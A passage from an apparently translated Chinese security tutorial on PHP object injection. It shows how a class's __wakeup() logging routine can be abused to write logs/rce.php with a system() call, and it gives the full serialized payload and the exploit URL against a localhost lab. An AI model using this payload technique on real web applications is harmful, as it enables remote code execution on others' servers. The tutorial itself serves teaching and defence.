 我们可以从下一个截图中验证 test.txt 文件已经被删除。

![](img/810695d4197135ad15a2f9ed3f2abd59.png)

对于下一个漏洞，我们将通过在服务器上创建一个恶意的 PHP 文件并执行它来在服务器上执行代码。为此，我们将使用`__wakeup()`函数。

我们知道一旦对象被反序列化，就会调用`__wakeup()`。在函数内部，它创建一个日志文件并添加一个日志条目。我们将处理变量的值，这样就不用创建日志文件，而是创建一个 PHP 文件，不用写日志条目，而是在 PHP 文件中写一些恶意的 PHP 命令。我们按照下面的步骤来利用这一点

*   我们将有效负载中的`log_file`属性修改为我们想要生成的 PHP RCE 文件的目标路径(在下面的例子中为`logs/rce.php`)。一旦 createFile()被调用，它将检查`logs/rce.php`(这是`log_file`变量的值)文件是否存在，如果它不存在，它将创建它(第 21，35 行)。
*   类似地，我们将把有效载荷中的`content`属性修改成一些 PHP 代码，比如`<?php system('dir C:\\'); ?>`。第 22 行调用的`logEntry()`方法获取`content`变量的值，并将其写入`log_file`。因此，恶意的 PHP 代码将被写入到`/logs/rce.php`文件中。

有效负载应该如下所示:

```
O:12:"Serialkiller":4:{s:24:"%00Serialkiller%00cache_file";s:16:"cache/john.cache";s:22:"%00Serialkiller%00log_file";s:12:"logs/rce.php";s:21:"%00Serialkiller%00content";s:28:"<?php system('dir C:\\'); ?>";s:18:"%00Serialkiller%00user";s:4:"john";}
```

由于该程序反序列化了 GET 参数`data`中传递的任何内容，我们可以通过在浏览器上打开以下页面来执行有效负载:

```
http://localhost/injection.php?data=O:12:"Serialkiller":4:{s:24:"%00Serialkiller%00cache_file";s:16:"cache/john.cache";s:22:"%00Serialkiller%00log_file";s:12:"logs/rce.php";s:21:"%00Serialkiller%00content";s:28:"<?php system('dir C:\\'); ?>";s:18:"%00Serialkiller%00user";s:4:"john";}
```

![](img/7251a3f65be3a54ecbc10514a027b598.png)

在执行了上面的有效负载之后，我们导航到在`http://localhost/logs/rce.php`中创建的新 PHP 文件。我们可以看到执行代码是可能的。
